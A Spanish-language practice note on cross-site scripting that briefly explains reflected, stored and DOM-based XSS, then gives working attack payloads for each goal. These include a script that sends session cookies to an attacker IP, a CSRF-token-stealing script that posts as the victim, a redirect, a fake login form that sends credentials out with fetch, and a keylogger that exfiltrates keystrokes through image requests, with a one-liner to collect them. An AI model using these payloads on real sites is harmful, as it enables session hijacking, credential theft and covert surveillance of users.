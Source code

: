 ----
- Tags: #ataque #basic #practica #xss 
----

# ¿ Que es? 

### Es un tipo de vulnerabilidad de seguridad informática que permite a un atacante ejecutar código malicioso en la página web de un usuario sin su conocentimiento. Esta vulnerabilidad permite al atacanta robar información personal, como nombres de usuario, contraseñas y otros datos confidenciales.

---

# Tipos de vulerabilidades XSS 

- ## Reflejado (Reflected)
### Este tipo de **XSS** se produce cuando los datos proporcionados por le usuario **se reflejan en la respuesta** HTTP sin ser verificados adecuadamente. Esto permite a un atacante inyectar código malicioso en la respuesta, que luego se ejecuta en el navegador del usuario. 

- ## Almacenado (Stored)
### Este tipo de **XSS** se produce cuando un atacante **es capaz de almacenar código malicioso** en una base de datos o en el servidor web que aloja una página web vulnerable. Este código se ejecuta cada ve que se carga la página. 

- ## DOM-Based
### Estipo tipo de **XSS** se produce cuando el código malicioso **se ejecuta en el navegador del usuario a través del DOM** (Document Object Model). Esto se produce cuando el código JavaScript en una página web modifica el DOM en una forma que es vulnerable a la inyección de código malicioso.

---

- # Fines 

### Los fines de esta vulnerabilidad se basan tanto en el contexto, como en el atacante y sus fines. Pero se podrian realizar multiples ataques.

- ## Intentar robar cookie de sesión 

### El fin de esto claramente es realizar un **cookie hijacking** para secuestrar la sesión del usuario que visite la sección vulnerable a **XSS** de la página.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/get_cookie.js'></script>

#### Y levantar un servidor en python con nuestro archiv 'get_cookie.js' malicioso: 

> [!bug]
> ```javascript
var request = new XMLHttpRequest();
request.open('GET', `http://192.168.1.38/?cookie=${document.cookie}`);
request.send();

### Hablamos de un **INTENTO** de robo de sesión ya que si la cookie tiene la opción httpOnly checkeada, seria imposible. 

- ## Realizar acciones como un usuario ( [[CSRF - (Cross-Side Request Forgery)]] )

### En este ejemplo, interceptamos con [[Burpsuite]] la petición en la sección vulnerable a **XSS** la cual estaba en una página al hacer una publicación, por lo que se realizaba un **POST** a la ulr tramitando la data ingresada por el usuario a la par que un campo extra el cual se alojaba en la respuesta del servidor por lo que en caso de que fuese dinamico, lo primero que hacemos es capturar este para posteriormente realizar un post como el usuario.

- #### Ejemplo:

#### En el campo vulnerable podriamos ingresar algo como:

> [!bug]
> ```html
> <script src='http://{nuestra_ip}/make_post.js'></script>
> ```

#### Y levantar un servidor en python con nuestro archiv 'make_post.js' malicioso: 

> [!bug]
> ```javascript
const domain = "http://localhost:10007/newgossip";
const req1 = new XMLHttpRequest(); 
req1.open('GET', domain, false);
req1.withCredentials = true;
req1.send(); 
>
let response = req1.responseText; 
let parser = new DOMParser();
let doc = parser.parseFromString(response, 'text/html')
let token = doc.getElementsByName('_csrf_token')[0].value; 
>
const data = `title=ME+GUSTA+LA+VERGA&subtitle=Este+laburo+es+una+mierda&text=Estoy+re+caliente&_csrf_token=${token}`
>
const req2 = new XMLHttpRequest(); 
req2.open('POST', `http://localhost:10007/newgossip`, false)
req2.withCredentials = true;
req2.setRequestHeader('Content-Type', 'application/x-www-form-urlencoded')
req2.send(data);


- ## Redirigir a páginas de phishing propias

### El fin de esto es redirigir al usuario, no hace falta que sea a una página de phishing, podria ser cualquier recurso, por lo que en el campo vulnerable se deberia introducir: 

> [!bug]
> 
> ```html
><script> window.location.href = 'url'</script>
>```

- ## Intentar realizar un inicio de sesión

### En la sección vulnerable  podriamos ingresar un codigo malicioso jugando con JavaScript para intentar crear un formulario de inicio de sesión el cual nos mande las credenciales ingresadas por el usuario a un recurso nuestro.

```html
<div id="formContainer"></div>

<script> 
	var email;
	var password;
	var form = '<form>' + 'Email: <input type="email" id="email" required>' + '<br><br>' + 'Contraseña: <input type="password" id="password" required>' + '<br><br>' + '<input type="button" onclick="submitForm()" value="Ingresar"' + '</form>';
	
	document.getElementById("formContainer").innerHTML = form;
  
	function submitForm(){
		email = document.getElementById("email").value;
		password = document.getElementById("password").value;
	    console.log("Funciona", email, password)
		fetch(`http://192.168.1.38/?email=${email}&password=${password}`);
	}
</script>
```

- ## Realizar un 'key logger'

```html
<script>
	let keys = ""; 

	document.onkeypress = function(e){
		e = e || window.event; 
		keys += e.key;
		keys = keys.replace(" ", ","); 
		var i = new Image(); 
		i.src = `http://192.168.1.38/${keys}`; 
	};
</script>
```

### Con este script capturariamos las pulsaciones del usuario, y las mandariamos a una ip en particualar, donde podriamos tenerun servidor de python y filtrando por esta data que nos llega `python -m http.server 80 2>&1 | grep -oP 'GET /\K[^.*\s]+'`. 
